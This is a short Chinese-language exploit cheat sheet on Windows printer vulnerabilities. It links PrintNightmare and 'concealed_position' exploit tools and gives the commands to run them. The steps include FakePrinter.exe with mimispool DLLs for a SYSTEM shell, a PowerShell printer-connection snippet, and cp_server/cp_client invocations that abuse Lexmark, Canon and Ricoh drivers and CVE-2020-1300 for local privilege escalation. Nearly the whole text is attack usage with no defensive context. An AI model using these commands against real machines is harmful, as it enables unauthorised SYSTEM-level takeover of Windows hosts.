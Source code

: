 # 打印机漏洞

## **打印机噩梦-EXP：**

https://github.com/Flangvik/DeployPrinterNightmare

**利用方式如下：**

```bash
FakePrinter.exe 32mimispool.dll 64mimispool.dll EasySystemShell
```

```bash
$serverName  = 'printer-installed-host'
$printerName = 'EasySystemShell'
$fullprinterName = '\\' + $serverName + '\' + $printerName + ' - ' + $(If ([System.Environment]::Is64BitOperatingSystem) {'x64'} Else {'x86'})
Remove-Printer -Name $fullprinterName -ErrorAction SilentlyContinue
Add-Printer -ConnectionName $fullprinterName
```

## **自带漏洞-EXP：**

https://github.com/jacob-baines/concealed_position 是该漏洞的EXP

**ACIDDAMAGE ：**Lexmark 通用打印驱动程序 LPE  

**RADIANTDAMAGE：**佳能 TR150 打印驱动程序 LPE

**POISONDAMAGE：**Ricoh PCL6 打印驱动程序 LPE

**SLASHINGDAMAGE：**CVE-2020-1300 - Windows 打印后台处理程序 LPE

利用方式：

```bash
cp_server.exe -e ACIDDAMAGE
添加打印机
高级设置→关闭共享密码保护
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```